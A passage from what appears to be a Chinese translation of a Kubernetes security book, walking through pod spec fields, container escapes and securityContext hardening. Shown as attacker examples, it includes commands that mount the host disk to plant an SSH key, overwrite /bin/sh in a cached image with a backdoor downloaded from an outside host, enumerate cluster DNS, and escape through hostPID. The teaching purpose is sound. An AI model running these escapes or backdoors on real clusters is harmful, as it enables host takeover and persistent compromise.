在容器突破场景中，如果用户在容器内部是 root 用户或具有挂载能力（默认由`CAP_SYS_ADMIN`授予，除非放弃），则可以与挂载到容器中的虚拟和物理磁盘进行交互。如果容器是特权容器（其中包括禁用*/dev*中内核路径屏蔽），它可以看到并挂载主机文件系统：

```
# inside a privileged container
root@hack:~ [0]$ ls -lasp /dev/
root@hack:~ [0]$ mount /dev/xvda1 /mnt/

# write into host filesystem's /root/.ssh/ folder
root@hack:~ [0]$ cat MY_PUB_KEY >> /mnt/root/.ssh/authorized_keys
```

我们查看`nsenter`特权容器的突破，通过进入主机的命名空间更加优雅地逃逸，在第六章中讨论。

尽管你应该通过避免 root 用户和特权模式轻松防止这种攻击，并通过准入控制强制执行，但如果配置错误，这表明容器安全边界可以有多薄弱。

###### 警告

控制容器化进程的攻击者可能控制网络、部分或全部存储，以及可能是 pod 中的其他容器。容器通常假定 pod 中的其他容器是友好的，因为它们共享资源，我们可以将 pod 视为内部进程的信任边界。初始化容器是一个例外：它们在主容器启动之前完成并关闭，并且因为它们在隔离中运行，可能具有更高的安全敏感性。

容器和 pod 隔离模型依赖于 Linux 内核和容器运行时，通常情况下配置正确时都很健壮。容器逃逸更多地是通过不安全的配置而非内核漏洞发生，尽管零日内核漏洞对未正确配置 LSM（如 SELinux 和 AppArmor）的 Linux 系统必然具有毁灭性影响。

###### 注意

在“为弹性构建容器化应用程序”中，我们探讨了 Linux DirtyCOW 漏洞如何被利用来突破不安全配置的容器。

容器逃逸很少是一帆风顺的，而任何新的漏洞通常在披露后不久就会被修复。只有偶尔会出现内核漏洞导致可利用的容器逃逸，而使用 LSM（如 SELinux 和 AppArmor）正确配置可以让防御者紧密限制高风险的面向网络的进程；它可能涉及以下一项或多项：

+   发现运行时或内核中的零日漏洞

+   利用过多的特权并使用合法命令逃逸

+   规避错误配置的内核安全机制

+   检查其他进程或文件系统以寻找替代的逃逸路径

+   监听网络流量以获取凭证

+   攻击底层协调器或云环境

###### 警告

底层物理硬件的漏洞通常无法在容器中进行防御。例如，`Spectre`和`Meltdown`（CPU 推测执行攻击），以及`rowhammer`、`TRRespass`和`SPOILER`（DRAM 内存攻击）通过容器隔离机制，因为它们无法拦截 CPU 处理的整个指令流。虚拟化程序遇到同样的保护缺乏问题。

发现新的内核攻击很困难。错误配置的安全设置、利用已发布的 CVE 以及社会工程攻击更容易。但是理解潜在威胁范围对于确定自身的风险容忍度至关重要。

我们将逐步探索安全功能，以查看系统可能受到攻击的一系列方式，见附录 A。

欲了解 Kubernetes 项目如何管理 CVE，请参阅 Anne Bertucio 和 CJ Cullen 的博文，“[探索容器安全：开源 Kubernetes 中的漏洞管理](https://oreil.ly/wYvv6)”。

# Pod 配置和威胁

我们已经广泛地讨论了 pod 的各个部分，因此让我们深入了解 pod spec，以强调任何问题或潜在的风险。

###### 警告

为了保护 pod 或容器，容器运行时应该是最小可用安全的；即不应该主持未经身份验证的连接的套接字（例如 Docker 的 */var/run/docker.sock* 和 `tcp://127.0.0.1:2375`），因为这将 [导致主机被接管](https://oreil.ly/jy8Ol)。

出于此示例的目的，我们使用了 [`GoogleCloudPlatform/microservices-demo` 应用程序](https://oreil.ly/6WVwV) 中的 `frontend` pod，并使用以下命令部署：

```
kubectl create -f \
"https://raw.githubusercontent.com/GoogleCloudPlatform/\
microservices-demo/master/release/kubernetes-manifests.yaml"
```

我们已经更新并添加了一些额外的配置，以便进行演示，并将在接下来的几节中进行详细讨论。

## Pod Header

pod 头是我们所熟悉和喜爱的所有 Kubernetes 资源的标准头部，定义了此 YAML 定义的实体类型及其版本：

```
apiVersion: v1
kind: Pod
```

元数据和注释可能包含敏感信息，如 IP 地址或安全提示（在这种情况下，适用于 Istio），尽管只有当攻击者具有只读访问权限时才有用：

```
metadata:
  annotations:
    seccomp.security.alpha.kubernetes.io/pod: runtime/default
    cni.projectcalico.org/podIP: 192.168.155.130/32
    cni.projectcalico.org/podIPs: 192.168.155.130/32
    sidecar.istio.io/rewriteAppHTTPProbers: "true"
```

它也历史性地持有 `seccomp`、`AppArmor` 和 `SELinux` 策略：

```
metadata:
  annotations:
    container.apparmor.security.beta.kubernetes.io/hello: "localhost/\
      k8s-apparmor-example-deny-write"
```

我们将讨论如何在 “运行时策略” 中使用这些注释。

###### 注意

经过多年的悬而未决，`seccomp` 在 Kubernetes 中在 v1.19 中 [进入了一般可用状态](https://oreil.ly/F7zOs)。

这将从注释语法 [更改为 `securityContext` 条目](https://oreil.ly/raOrF)：

```
securityContext:
  seccompProfile:
    type: Localhost
    localhostProfile: my-seccomp-profile.json
```

[Kubernetes 安全配置文件运算符](https://oreil.ly/Lrw5d)（SPO）可以在您的节点上安装 `seccomp` 配置文件（容器运行时使用的先决条件），并从集群中的工作负载中记录新配置文件，使用 [oci-seccomp-bpf-hook](https://oreil.ly/A3Ub4)。

SPO 也支持通过 [selinuxd](https://oreil.ly/nYQOU) 实现 SELinux，详细信息请参见 [此博客文章](https://oreil.ly/3ZFui)。

AppArmor 仍处于测试阶段，但一旦升级到 GA，注释将被像 `seccomp` 这样的一流字段取代。

让我们继续讨论一个对客户端不可写的 pod spec 的部分，但包含一些重要的提示。

## 反向正常运行时间

当您从 API 服务器转储一个 pod spec（例如使用 `kubectl get` `-o yaml`）时，它包括 pod 的启动时间：

```
  creationTimestamp: "2021-05-29T11:20:53Z"
```

运行时间超过一两周的 pod 可能面临未打补丁的 bug 风险增加。如果敏感工作负载运行超过 30 天，通过 CI/CD 重建以适应库或操作系统补丁会更安全。

通过离线扫描现有容器镜像中的 CVE 来通知重建的流水线可以使用。最安全的方法是定期结合“重建”（即重建和重新部署容器）和在检测到 CVE 时通过 CI/CD 流水线进行重建。

## 标签

Kubernetes 中的标签不受验证或强类型化；它们是元数据。但是标签受到服务和控制器使用选择器引用的影响，并且还用于安全功能，如网络策略。这使它们对安全敏感，并且很容易受到误配置的影响：

```
  labels:
    app: frontend
    type: redis
```

标签中的拼写错误意味着它们与预期的选择器不匹配，因此可能无意中引入安全问题，例如：

+   从预期的网络策略或准入控制策略中排除

+   从服务目标选择器的意外路由

+   不被运营商或可观察性工具精确定位的恶意 pod

## 管理字段

管理字段是在 v1.18 中引入的，支持 [服务器端应用](https://oreil.ly/UjXPY)。它们复制了 pod 规范中其他地方的信息，但我们对它们的兴趣有限，因为我们可以从 API 服务器读取整个规范。它们看起来像这样：

```
  managedFields:
  - apiVersion: v1
    fieldsType: FieldsV1
    fieldsV1:
      f:metadata:
        f:annotations:
          .: {}
          f:sidecar.istio.io/rewriteAppHTTPProbers: {}
# ...
      f:spec:
        f:containers:
          k:{"name":"server"}:
# ...
            f:image: {}
            f:imagePullPolicy: {}
            f:livenessProbe:
# ...
```

## Pod 的命名空间和所有者

我们通过 API 请求获取它时知道 pod 的名称和命名空间。

如果我们使用`--all-namespaces`返回所有 pod 配置，这将显示命名空间：

```
  name: frontend-6b887d8db5-xhkmw
  namespace: default
```

在 pod 内部，可以通过 */etc/resolv.conf* 中的 DNS 解析器配置推断出当前命名空间（例如此示例中为`secret-namespace`）：

```
$ grep -o "search [^ ]*" /etc/resolv.conf
search secret-namespace.svc.cluster.local
```

其他不太健壮的选项包括挂载的服务账户（假设它在相同的命名空间中，这可能并非如此），或者集群的 DNS 解析器（如果您可以枚举或抓取它）。

## 环境变量

现在我们开始进入有趣的配置。我们想看到 pod 中的环境变量，部分原因是它们可能泄露秘密信息（应该已作为文件挂载），还因为它们可能列出命名空间中可用的其他服务，并因此建议其他网络路由和攻击应用程序：

###### 警告

在部署和 pod YAML 中设置的密码对部署 YAML 的操作员、运行时的进程和任何其他能够读取其环境的进程可见，并对能够从 Kubernetes 或 `kubelet` API 中读取的任何人可见。

这里我们看到容器的`PORT`（这是良好的实践，并且应用程序在 Knative、Google Cloud Run 和一些其他系统中运行时所必需的），其协调服务的 DNS 名称和端口，一些设置不良的数据库配置和凭据，最后还有一个合理引用的 Secret 文件：

```
spec:
  containers:
  - env:
    - name: PORT
      value: "8080"
    - name: CURRENCY_SERVICE_ADDR
      value: currencyservice:7000
    - name: SHIPPING_SERVICE_ADDR
      value: shippingservice:50051
# These environment variables should be set in secrets
    - name: DATABASE_ADDR
      value: postgres:5432
    - name: DATABASE_USER
      value: secret_user_name
    - name: DATABASE_PASSWORD
      value: the_secret_password
    - name: DATABASE_NAME
      value: users
# This is a safer way to reference secrets and configuration
    - name: MY_SECRET_FILE
      value: /mnt/secrets/foo.toml
```

这并不算太糟糕，对吧？让我们继续讨论容器镜像。

## 容器镜像

容器镜像的文件系统非常重要，因为它可能存在有助于提升特权的漏洞。如果您不定期打补丁，Captain Hashjack 可能会从公共注册表获取相同的镜像以扫描可能可以利用的漏洞。知道哪些二进制文件和文件可用还能够在攻击计划“离线”时进行攻击，这样对手在攻击实时系统时可以更隐秘和有针对性。

###### 提示

OCI 注册表规范允许任意图像层存储：这是一个两步过程，第一步上传清单，第二步上传数据块。如果攻击者只执行第二步，他们可以免费获得任意数据块存储空间。

大多数注册表不会自动索引这一点（Harbour 是个例外），因此它们将永久存储“孤立”的数据块，可能隐藏在视图之外，直到手动进行垃圾回收。

这里我们看到一个通过标签引用的图像，这意味着我们无法确定容器镜像的实际 SHA256 哈希摘要。由于在部署后未使用摘要引用，容器标签可能已更新：

```
  image: gcr.io/google-samples/microservices-demo/frontend:v0.2.3
```

我们可以使用 SHA256 图像摘要而不是图像标签来拉取图像，以便按其内容地址引用：

```
  image: gcr.io/google-samples/microservices-demo/frontend@sha256:ca5d97b6cec...
```

图像应始终通过 SHA256 或使用已签名标签进行引用；否则，由于标签可能已在容器启动后在注册表中更新，因此无法知道正在运行什么。您可以通过检查运行中容器的图像 SHA256 来验证正在运行的内容。

在 Kubernetes 的`image:`键中可以同时指定标签和 SHA256 摘要，此时将忽略标签并通过摘要检索图像。这会导致包含标签和 SHA256 的潜在混乱的图像定义，如以下内容将按 SHA 而不是标签检索的图像：

```
controlplane/bizcard:latest\ 
@sha256:649f3a84b95ee84c86d70d50f42c6d43ce98099c927f49542c1eb85093953875 
```


容器名称，加上忽略的“latest”标签


图像 SHA256，覆盖了前一行定义的“latest”标签

检索作为匹配 SHA 的图像而不是标签。

如果攻击者可以影响本地`kubelet`图像缓存，他们可以向图像添加恶意代码并在工作节点上重新标记它（注意：要再次运行此操作，请不要忘记删除`cidfile`）：

```
$ docker run -it --cidfile=cidfile --entrypoint /bin/busybox \
  gcr.io/google-samples/microservices-demo/frontend:v0.2.3 \
  wget https://securi.fyi/b4shd00r -O /bin/sh 

$ docker commit $(<cidfile) \
  gcr.io/google-samples/microservices-demo/frontend:v0.2.3 
```


加载恶意 shell 后门并覆盖容器的默认命令（`/bin/sh`）。


提交更改后的容器使用相同方法。

虽然本地注册表缓存的妥协可能导致此攻击，容器缓存访问可能通过对节点进行 root 权限获取，因此这可能是您最不用担心的问题。

###### 注意

在高度动态的“从零自动扩展”环境中，如 Knative，使用`Always`的图像拉取策略存在性能问题。当启动时间至关重要时，多秒级的`imagePullPolicy`潜在延迟是不可接受的，必须使用图像摘要。

对本地图像缓存的此攻击可以通过使用`Always`的图像拉取策略来减轻，这将确保本地标签与从中拉取的注册表中定义的内容匹配。这非常重要，您应始终注意此设置：

```
  imagePullPolicy: Always
```

容器镜像名称或注册表名称中的拼写错误会导致意外部署恶意容器代码，如果对手已将图像与恶意容器“typosquatted”。

当只有一个字符变化时，例如 `controlplan/hack` 而非 `controlplane/hack`，这可能很难检测到。像 Notary 这样的工具通过检查来自可信方的有效签名来防范此类情况。如果 TLS 拦截中间件框拦截并重写图像标签，则可能部署虚假图像。

再次强调，TUF 和 Notary 侧信道签名以及像 `cosign` 这样的其他容器签名方法可以缓解这种情况，正如 第四章 中讨论的那样。

## Pod 探测

您的活跃探测应根据应用程序的性能特征进行调整，并用于保持其在生产环境中的活跃性。探测用于通知 Kubernetes 应用程序是否无法履行其指定目的，例如由于崩溃或外部系统故障。

Kubernetes 审计发现 [TOB-K8S-024](https://oreil.ly/OWnq6) 表明，具备调度 Pod 能力的攻击者可以通过无需更改 Pod 的 `command` 或 `args` 来操控网络请求并在目标容器内执行命令。由于探测由 `kubelet` 在主机网络接口上执行，而不是从容器内部执行，这使得攻击者可以进行本地网络发现。

这里可以使用 `host` 头来枚举本地网络。概念验证漏洞如下：

```
apiVersion : v1
kind : Pod
# ...
livenessProbe:
  httpGet:
    host: 172.31.6.71
    path: /
    port: 8000
    httpHeaders :
    - name: Custom-Header
      value: Awesome
```

## CPU 和内存限制以及请求

管理 Pod 的 `cgroups` 的资源限制和请求可以防止 `kubelet` 主机上有限内存和计算资源的耗尽，并防御 fork 炸弹和运行异常的进程。Pod 规范不支持网络带宽限制，但您的 CNI 实现可能支持。

`cgroups` 是一种有用的资源限制。`cgroups` v2 提供了更多保护，但 `cgroups` v1 并非安全边界，[可以很容易地逃逸](https://oreil.ly/uDhso)。

限制可以防止恶意容器执行的加密挖矿或资源耗尽。它还阻止主机因糟糕的部署而不堪重负。对于进一步利用系统的对手，除非它们需要使用内存密集型攻击，其效果有限：

```
    resources:
      limits:
        cpu: 200m
        memory: 128Mi
      requests:
        cpu: 100m
        memory: 64Mi
```

## DNS

默认情况下，Kubernetes DNS 服务器提供集群中所有服务的所有记录，除非单独按命名空间或域部署，否则无法实现命名空间隔离。

###### 提示

CoreDNS 支持策略插件，包括 OPA，以限制对 DNS 记录的访问并防止以下枚举攻击。

Kubernetes CoreDNS 默认安装泄漏了关于其服务的信息，并为攻击者提供了查看所有可能网络端点的视图（见 图 2-10）。当然，由于网络策略的存在，它们可能并非全部可访问，正如我们将在 “流量流控” 中看到的那样。

DNS 枚举可以针对默认的无限制 CoreDNS 安装执行。为检索集群命名空间中的所有服务（输出经过编辑以适应）：

```
root@hack-3-fc58fe02:/ [0]# dig +noall +answer \
  srv any.any.svc.cluster.local |
  sort --human-numeric-sort --key 7

any.any.svc.cluster.local. 30 IN SRV 0 6 53 kube-dns.kube-system.svc.cluster...
any.any.svc.cluster.local. 30 IN SRV 0 6 80 frontend-external.default.svc.clu...
any.any.svc.cluster.local. 30 IN SRV 0 6 80 frontend.default.svc.cluster.local.
...
```


###### 图 2-10\. Rory McCune 关于硬多租户难题的智慧

对于所有服务终端和名称，请执行以下操作（输出经过编辑以适应）：

```
root@hack-3-fc58fe02:/ [0]# dig +noall +answer \
  srv any.any.any.svc.cluster.local |
  sort --human-numeric-sort --key 7

any.any.any.svc.cluster.local. 30 IN SRV 0 3 53 192-168-155-129.kube-dns.kube...
any.any.any.svc.cluster.local. 30 IN SRV 0 3 53 192-168-156-130.kube-dns.kube...
any.any.any.svc.cluster.local. 30 IN SRV 0 3 3550 192-168-156-133.productcata...
...
```

基于查询返回 IPv4 地址：

```
root@hack-3-fc58fe02:/ [0]# dig +noall +answer 1-3-3-7.default.pod.cluster.local

1-3-3-7.default.pod.cluster.local. 23 IN A      1.3.3.7
```

Kubernetes API 服务器服务 IP 信息默认挂载到 pod 的环境中：

```
root@test-pd:~ [0]# env | grep KUBE
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_SERVICE_PORT=443
KUBERNETES_PORT_443_TCP=tcp://10.7.240.1:443
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.7.240.1
KUBERNETES_SERVICE_HOST=10.7.240.1
KUBERNETES_PORT=tcp://10.7.240.1:443
KUBERNETES_PORT_443_TCP_PORT=443

root@test-pd:~ [0]# curl -k \
  https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version

{
  "major": "1",
  "minor": "19+",
  "gitVersion": "v1.19.9-gke.1900",
  "gitCommit": "008fd38bf3dc201bebdd4fe26edf9bf87478309a",
# ...
```

响应匹配 API 服务器的 `/version` 终端。

###### Tip

您可以使用 [此 nmap 脚本](https://oreil.ly/PAqte) 和以下函数检测 Kubernetes API 服务器：

```
nmap-kube-apiserver() {
    local REGEX="major.*gitVersion.*buildDate"
    local ARGS="${@:-$(kubectl config view --minify |
        awk '/server:/{print $2}' |
        sed -E -e 's,^https?://,,' -e 's,:, -p ,g')}"

    nmap \
        --open \
        --script=http-get \
        --script-args "\
 http-get.path=/version, \
 http-get.match="${REGEX}", \
 http-get.showResponse, \
 http-get.forceTls \
 " \
        ${ARGS}
}
```

接下来是一个重要的运行时策略部分：securityContext，最初由 Red Hat 引入。

## Pod 的 securityContext

此 pod 使用空的 `securityContext` 运行，这意味着在部署时没有准入控制器对配置进行修改，容器可以运行一个属于 root 的进程，并且具有所有可用的能力：

```
  securityContext: {}
```

利用能力风险涉及对内核标志的理解，[Stefano Lanaro 的指南](https://oreil.ly/mtvCX) 提供了全面的概述。

不同的能力可能对系统产生特定影响，`CAP_SYS_ADMIN` 和 `CAP_BPF` 尤其吸引攻击者。你应谨慎授予的显著能力包括：

`CAP_DAC_OVERRIDE`、`CAP_CHOWN`、`CAP_DAC_READ_SEARCH`、`CAP_FORMER`、`CAP_SETFCAP`

绕过文件系统权限

`CAP_SETUID`, `CAP_SETGID`

成为 root 用户

`CAP_NET_RAW`

读取网络流量

`CAP_SYS_ADMIN`

文件系统挂载权限

`CAP_SYS_PTRACE`

对其他进程进行全能调试

`CAP_SYS_MODULE`

加载内核模块以绕过控制

`CAP_PERFMON`、`CAP_BPF`

访问深度钩住 BPF 系统

这些是许多容器突破的先导条件。正如 [Brad Geesaman](https://oreil.ly/swfMU) 在 图 2-11 中指出的那样，进程想要自由！对手会利用 pod 中可以用来逃逸的任何东西。


###### 图 2-11\. Brad Geesaman 引人入胜的容器自由呼吁

###### Note

`CAP_NET_RAW` 在 `runc` 中默认启用，允许 UDP（绕过如 Istio 的 TCP 服务网格）、ICMP 消息和 ARP 毒化攻击。[Aqua 发现 DNS 毒化攻击](https://oreil.ly/ceARf) 目标是 Kubernetes DNS，而 `net.ipv4.ping_group_range` 的 `sysctl` 标志意味着 [在需要 ICMP 时应该丢弃](https://oreil.ly/tJ7rQ)。

这些是一些容器突破，需要 `root` 和/或 `CAP_SYS_ADMIN`、`CAP_NET_RAW`、`CAP_BPF` 或 `CAP_SYS_MODULE` 来运行：

+   子路径卷挂载遍历以及 */proc/self/exe*（均在 第六章 描述）。

+   [CVE-2016-5195](https://oreil.ly/ZdYJ8) 是一个只读内存写时复制竞争条件，又称 DirtyCow，在 “Architecting Containerized Apps for Resilience” 中有详细介绍。

+   [CVE-2020-14386](https://oreil.ly/Scrau) 是一个需要 `CAP_NET_RAW` 的非特权内存破坏漏洞。

+   [CVE-2021-30465](https://oreil.ly/QzkuG)，`runc` 挂载目标符号链接交换到 `rootfs` 外部的挂载，受未授权用户的限制。

+   [CVE-2021-22555](https://oreil.ly/Zj1Rl) 是一个 `Netfilter` 堆溢出写，需要 `CAP_NET_RAW`。

+   [CVE-2021-31440](https://oreil.ly/VLeQK) 是 `eBPF` 对 Linux 内核的越界访问，需要 root 或 `CAP_BPF` 和 `CAP_SYS_MODULE`。

+   [@andreyknvl](https://oreil.ly/wlzra) 内核漏洞和 [`core_pattern` 逃逸](https://oreil.ly/RWlF0)。

当没有分裂时，仍然需要根能力来执行其他攻击，比如通过 IPv6 伪造路由广告进行的 Kubernetes CNI 插件中间人攻击 [CVE-2020-10749](https://oreil.ly/XoxVW)。

###### 提示

优秀的 [“A Compendium of Container Escapes”](https://oreil.ly/LAGB9) 在这些攻击方面提供了更详细的信息。

我们在 “Runtime Policies” 中枚举了一个 pod 的 `securityContext` 的可用选项，以保护自己免受敌对容器的攻击。

## Pod 服务账户

服务账户是 JSON Web Tokens（JWT），由 pod 用于 API 服务器的身份验证和授权。默认服务账户不应被赋予任何权限，并且默认情况下不具备任何授权。

一个 pod 的 `serviceAccount` 配置定义了其与 API 服务器的访问权限；详细信息请参见 “Service accounts”。服务账户被挂载到所有 pod 副本中，并共享单个的 “工作负载身份”：

```
  serviceAccount: default
  serviceAccountName: default
```

通过这种方式分离职责，减少了 pod 被攻击后的爆炸半径：限制入侵后的攻击者是策略控制的主要目标。

## 调度器和容忍性

调度器负责将 pod 工作负载分配给节点。其运行如下：

```
  schedulerName: default-scheduler
  tolerations:
  - effect: NoExecute
    key: node.kubernetes.io/not-ready
    operator: Exists
    tolerationSeconds: 300
  - effect: NoExecute
    key: node.kubernetes.io/unreachable
    operator: Exists
    tolerationSeconds: 300
```

敌对的调度器可能会从集群中渗透数据或工作负载，但需要先攻陷集群才能将其添加到控制平面。更容易的方式是调度一个特权容器并根据控制平面的 `kubelets` 获取根权限。

## Pod 卷定义

这里我们使用了一个绑定的服务账户令牌，以 YAML 格式定义为投影式服务账户令牌（而不是标准服务账户）。`kubelet` 定期旋转它来防止外泄（每 3600 秒，或一个小时），所以如果被窃取，它的使用是有限的。攻击者持久存在时仍然能够使用这个值，并且可以在旋转后观察到其值，因此这只在攻击完成后保护服务账户：

```
  volumes:
  - name: kube-api-access-p282h
    projected:
      defaultMode: 420
      sources:
      - serviceAccountToken:
          expirationSeconds: 3600
          path: token
      - configMap:
          items:
          - key: ca.crt
            path: ca.crt
          name: kube-root-ca.crt
      - downwardAPI:
          items:
          - fieldRef:
              apiVersion: v1
              fieldPath: metadata.namespace
            path: namespace
```

卷对于攻击者来说是潜在数据的丰富来源，您应确保正确配置诸如自主访问控制（DAC，例如文件和权限）等标准安全实践。

###### 提示

下行 API 将 Kubernetes 级别的值映射到 Pod 中的容器中，用于公开诸如 Pod 名称、命名空间、UID 以及标签和注释等内容。它的功能在[文档中列出](https://oreil.ly/UyC90)。

一个容器仅仅是 Linux，不会保护其工作负载免受配置错误的影响。

## Pod 网络状态

关于 Pod 的网络信息对于调试没有服务的容器或者不按预期响应的容器非常有用，但攻击者可能利用这些信息直接连接到 Pod，而无需扫描网络：

```
status:
  hostIP: 10.0.1.3
  phase: Running
  podIP: 192.168.155.130
  podIPs:
  - ip: 192.168.155.130
```

# 正确使用 `securityContext`

如果未配置或者权限过于宽松，Pod 更有可能受到威胁。`securityContext` 是防止容器越界的最有效工具。

在成功对运行中的 Pod 进行远程代码执行（RCE）之后，`securityContext` 是你可用的第一行防御配置。它可以访问可以单独设置的内核开关。还可以配置额外的 Linux 安全模块，以细化策略防止恶意应用程序利用系统。

Docker 的 `containerd` 默认具有 `seccomp` 配置文件，通过阻止内核中的系统调用，防止了对容器运行时的一些零日攻击。从 Kubernetes v1.22 开始，您应该通过`--seccomp-default` `kubelet` 标志默认启用此配置。在某些情况下，工作负载可能无法使用默认配置文件运行：可观察性或安全工具可能需要低级别的内核访问。这些工作负载应编写自定义的 `seccomp` 配置文件（而不是将它们运行为`Unconfined`，这允许任何系统调用）。

这里有一个从主机文件系统`/var/lib/kubelet/seccomp`加载的细粒度`seccomp`配置文件的示例：

```
  securityContext:
    seccompProfile:
      type: Localhost
      localhostProfile: profiles/fine-grained.json
```

`seccomp` 是用于系统调用的，但 SELinux 和 AppArmor 也可以在用户空间监视和执行策略，保护文件、目录和设备。

SELinux 配置能够阻止大多数容器越界攻击（除非使用基于标签的文件系统和进程访问方法），因为它不允许容器写入任何位置，除了它们自己的文件系统，也不允许读取其他目录，并且在 OpenShift 和 Red Hat Linux 上默认启用。

在基于 Debian 的 Linux 中，AppArmor 同样可以监视和防止许多攻击。如果启用了 AppArmor，则`cat /sys/module/apparmor/parameters/enabled` 返回 `Y`，并且可以在 Pod 定义中使用：

```
annotations:
  container.apparmor.security.beta.kubernetes.io/hello: localhost/k8s-apparmor-example-deny-write

```

Liz Rice 称 `privileged` 标志为“计算历史上最危险的标志”，但为什么特权容器如此危险？因为它们使进程命名空间保持启用，从而产生容器化的幻觉，但实际上禁用了所有安全功能。

“特权”是特定的 `securityContext` 配置：除进程命名空间外，所有配置都已禁用，虚拟文件系统已解除掩码，LSM 已禁用，并且授予了所有权限。

作为非 root 用户运行且设置 `AllowPrivilegeEscalation` 为 `false` 可有效防止许多特权升级：

```
spec:
  containers:
  - image: controlplane/hack
    securityContext:
      allowPrivilegeEscalation: false
```

安全上下文的粒度意味着必须测试配置的每个属性，以确保它未设置：作为防御者通过配置准入控制和测试 YAML，或作为攻击者在运行时使用动态测试（或 [amicontained](https://oreil.ly/BIQCJ)）。

###### 提示

我们将在本章后面探讨如何检测容器内的特权。

与主机共享命名空间还会降低容器的隔离性并使其面临更大的潜在风险。任何挂载的文件系统实际上都增加了挂载命名空间。

确保您的 pod 的 `securityContext` 设置正确，您的系统将更安全地抵御已知攻击。

## 通过 Kubesec 增强 securityContext

[Kubesec](https://kubesec.io) 是一个验证 Kubernetes 资源安全性的简单工具。

它为资源返回一个风险评分，并建议如何加强 `securityContext`（请注意，我们已编辑输出以适应）：

```

$ cat <<EOF > kubesec-test.yaml
apiVersion: v1
kind: Pod
metadata:
 name: kubesec-demo
spec:
 containers:
 - name: kubesec-demo
 image: gcr.io/google-samples/node-hello:1.0
 securityContext:
 readOnlyRootFilesystem: true
EOF

$ docker run -i kubesec/kubesec:2.11.1 scan - < kubesec-test.yaml
[ {
 "object": "Pod/kubesec-demo.default",
 "valid": true,
 "fileName": "STDIN",
 "message": "Passed with a score of 1 points",
 "score": 1,
 "scoring": {
   "passed": [{
      "id": "ReadOnlyRootFilesystem",
        "selector": "containers[].securityContext.readOnlyRootFilesystem == true",
        "reason": "An immutable root filesystem can ... increase attack cost",
        "points": 1
        }
    ],
    "advise": [{
      "id": "ApparmorAny",
      "selector": ".metadata.annotations.container.apparmor.security.beta.kubernetes.io/nginx",
      "reason": "Well defined AppArmor ... WARNING: NOT PRODUCTION READY",
      "points": 3
    },
...

```

[Kubesec.io](https://kubesec.io) 记录了对您的 `securityContext` 进行实际更改的详细说明，我们将在这里记录其中一些。

###### 提示

Shopify 出色的 [kubeaudit](https://oreil.ly/LHy2P) 为集群中的所有资源提供类似功能。

## 加固的 `securityContext`

NSA 发布了 [“Kubernetes 硬化指南”](https://oreil.ly/2riDP)，建议采用一组加固的 `securityContext` 标准。它建议扫描漏洞和错误配置，最小特权，良好的 RBAC 和 IAM，网络防火墙和加密，“定期审查所有 Kubernetes 设置，并使用漏洞扫描来确保适当地考虑风险并应用安全补丁”。

将 pod 中容器的最小特权分配给 `securityContext` 是一个责任（详细信息见 表 2-2）。请注意，我们在 “运行时策略” 中讨论的 PodSecurityPolicy 资源映射到 `securityContext` 中可用的配置标志。

表 2-2\. `securityContext` 字段

| 字段名 | 使用 | 建议 |
| --- | --- | --- |
| `privileged` | 控制 pod 是否可以运行特权容器。 | 设置为 `false`。 |
| `hostPID`，`hostIPC` | 控制容器是否可以共享主机进程命名空间。 | 设置为 `false`。 |
| `hostNetwork` | 控制容器是否可以使用主机网络。 | 设置为 `false`。 |
| `allowedHostPaths` | 限制容器只能访问主机文件系统中的特定路径。 | 使用“虚拟”路径名（如 `/foo` 设为只读）。如果省略此字段，则不会对容器施加任何准入限制。 |
| `readOnlyRootFilesystem` | 要求使用只读根文件系统。 | 在可能的情况下设置为 `true`。 |
| `runAsUser`, `runAsGroup`, `supplementalGroups`, `fsGroup` | 控制容器应用程序是否可以以 root 特权或 root 组成员身份运行。 | 将 `runAsUser` 设置为 `MustRunAsNonRoot`。将 `runAsGroup` 设置为 `nonzero`。将 `supplementalGroups` 设置为 `nonzero`。将 `fsGroup` 设置为 `nonzero`。 |
| `allowPrivilegeEscalation` | 限制特权升级到 root 权限。 | 设置为 `false`。这一措施是为了有效实施 `runAsUser: MustRunAsNonRoot` 设置。 |
| `SELinux` | 设置容器的 SELinux 安全上下文。 | 如果环境支持 SELinux，请考虑添加 SELinux 标签以进一步加固容器。 |
| `AppArmor` 注解 | 设置容器使用的 AppArmor 配置文件。 | 在可能的情况下，通过使用 AppArmor 来限制容器应用程序的利用。 |
| `seccomp` 注解 | 设置容器使用的 `seccomp` 沙箱配置文件。 | 在可能的情况下，使用 `seccomp` 审计配置文件来识别应用程序运行所需的系统调用；然后启用一个 `seccomp` 配置文件来阻止所有其他系统调用。 |

让我们使用 `kubesec` 静态分析工具更详细地探索这些内容，以及它用于查询您的 Kubernetes 资源的选择器。

### containers[] .securityContext .privileged

一个运行特权容器可能会给您的安全团队带来糟糕的一天。特权容器禁用了除 `process` 外的所有命名空间和 LSM（Linux 安全模块），授予了所有的 capabilities，通过 */dev* 暴露了主机的设备，并且通常会因为默认配置不安全。这是攻击者在新受损的 Pod 中寻找的第一件事情。

### .spec .hostPID

`hostPID` 允许通过 */proc* 文件系统从容器遍历到主机，该文件系统链接到其他进程的根文件系统。为了读取主机的进程命名空间，还需要 `privileged` 权限：

```
user@host $ OVERRIDES='{"spec":{"hostPID": true,''"containers":[{"name":"1",' user@host $ OVERRIDES+='"image":"alpine","command":["/bin/ash"],''"stdin": true,' user@host $ OVERRIDES+='"tty":true,"imagePullPolicy":"IfNotPresent",' user@host $ OVERRIDES+='"securityContext":{"privileged":true}}]}}' 
user@host $ kubectl run privileged-and-hostpid --restart=Never -it --rm \
 --image noop --overrides "${OVERRIDES}" 

/ # grep PRETTY_NAME /etc/*release* 
PRETTY_NAME="Alpine Linux v3.14" 
/ # ps faux | head 
PID   USER     TIME  COMMAND
 1 root      0:07 /usr/lib/systemd/systemd noresume noswap cros_efi 2 root      0:00 [kthreadd] 3 root      0:00 [rcu_gp] 4 root      0:00 [rcu_par_gp] 6 root      0:00 [kworker/0:0H-kb] 9 root      0:00 [mm_percpu_wq] 10 root      0:00 [ksoftirqd/0] 11 root      1:33 [rcu_sched] 12 root      0:00 [migration/0] 
/ # grep PRETTY_NAME /proc/1/root/etc/*release 
/proc/1/root/etc/os-release:PRETTY_NAME="Container-Optimized OS from Google"
```


启动一个特权容器并共享主机进程命名空间。


作为容器中的 root 用户，检查容器的操作系统版本。


验证我们位于主机的进程命名空间中（我们可以看到 PID 1 和内核辅助进程）。


